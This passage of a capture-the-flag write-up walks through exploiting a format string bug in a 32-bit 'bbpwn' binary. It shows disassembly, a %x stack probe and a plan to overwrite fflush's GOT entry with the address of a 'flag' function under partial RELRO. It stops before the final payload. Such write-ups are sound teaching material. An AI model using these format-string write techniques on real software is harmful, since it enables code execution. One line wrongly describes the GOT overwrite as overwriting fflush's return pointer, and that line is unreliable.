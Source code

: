 ```nasm
│           0x080487e8      e8d3fdffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x080487ed      83c410         add esp, 0x10
│           0x080487f0      83ec0c         sub esp, 0xc
│           0x080487f3      6a01           push 1                      ; 1
└           0x080487f5      e8f6fdffff     call sym.imp.exit           ; void exit(int status)
```
{% endtab %}
{% endtabs %}

The most important thing to notice in this disassembly is that there is a format string bug at `0x080487d7`. The address we write to is directly passed as the argument to `printf`.

We'll then check where our input is on the stack when we run it:

```nasm
$ ./bbpwn
Hello baby pwner, whats your name?
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Ok cool, soon we will know whether you pwned it or not. Till then Bye 8048914 ff8e99e8 f7c3a439 f7c0c2f4 f7f365fc f781ab0d ff8e9cb4 0 0 25207825 78252078 20782520 25207825 78252078 20782520
```

We see that we start writing at the 10th offset.

### Plan of Attack

There is no canary to leak. Nothing else happens after the format string bug is triggered, meaning we need to perform some arbitrary write. Overwriting the return pointer of `main()` is not always a great choice because the stack frame is unpredictable.

A better solution is to overwrite the address of another function with the address of `flag`, our desired function. That way, when we call the function, it will call `flag` instead. This is what we call a **GOT overwrite** and will be discussed further at the end of the binary exploitation section.

The reason that the plan of attack is possible is because RELRO is not fully on. RELRO, or **RE**location **L**inked **R**ead-**O**nly, is a security feature that makes the GOT read-only. This means that we cannot overwrite the GOT. However, because RELRO is only **Partial**, we can overwrite the GOT.

### Understanding the Payload

We choose `fflush` as a good candidate for overwriting because it is called right after the format string bug is triggered. This means that we can overwrite the return pointer of `fflush` with the address of `flag`.

Checking the `got` table, we can find the address of `fflush`:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  got fflush

GOT protection: Partial RelRO | GOT functions: 11
 
[0x804a028] fflush@GLIBC_2.0  →  0x80485c6
```
{% endtab %}
